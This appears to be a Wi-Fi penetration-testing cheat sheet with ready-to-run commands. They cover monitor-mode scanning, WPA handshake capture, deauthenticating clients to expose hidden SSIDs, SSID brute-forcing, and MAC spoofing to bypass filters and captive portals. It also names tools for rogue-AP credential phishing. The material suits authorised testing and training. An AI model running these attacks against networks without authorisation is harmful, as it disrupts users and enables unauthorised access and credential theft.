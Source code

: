 
## 3. Wireless Reconnaissance

### Scanning & Channel Hopping

1. **Put interface into monitor mode**:
```bash
sudo airmon-ng start wlan0
```
2. **Scan with airodump-ng**:
```bash
sudo airodump-ng wlan0mon --band abg --wps --manufacturer
```
3. **Focus on a specific channel**:
```bash
sudo airodump-ng -c <CHANNEL> --bssid <AP_BSSID> -w <OUTFILE> wlan0mon
```
4. **Filter by handshake**:  
Watch the top-right corner for “WPA handshake” or check with `aircrack-ng capture.cap`.

---
### Hidden SSIDs

When a network does not broadcast its SSID, you can:

1. **Deauthenticate a client**. When it reconnects, the ESSID will appear briefly in the capture.
```bash
aireplay-ng -0 10 -a <BSSID> wlan0mon
```
2. **Brute force hidden SSIDs** with a dictionary of possible names:
```bash
mdk4 wlan0mon p -t <BSSID> -f /path/to/ssid_wordlist.txt
```
### MAC Filtering & MAC Spoofing

If fake authentication fails repeatedly, the AP may be filtering MAC addresses. Use `airodump-ng` to identify a **valid** client MAC, wait until it goes offline, then spoof it:

```bash
ifconfig wlan0 down
macchanger -m <VALID_CLIENT_MAC> wlan0
ifconfig wlan0 up
```

---
## 4. Open & Captive Portal Attacks

1. **Connect to an Open Wi-Fi**:    
```bash
iwconfig wlan0 essid "<ESSID>"
dhclient -v wlan0
```
1. **MAC bypass**: If there's a captive portal restricting MAC addresses, impersonate a MAC of an already-authenticated client:
```
ifconfig wlan0 down
macchanger -m 00:11:22:33:44:55 wlan0
ifconfig wlan0 up
iwconfig wlan0 essid "<ESSID>"
dhclient -v wlan0
```
3. **Phishing on captive portal**: Tools like **wifiphisher**, **Fluxion**, or **Airgeddon** can create a rogue AP with a captive portal that harvests credentials.

---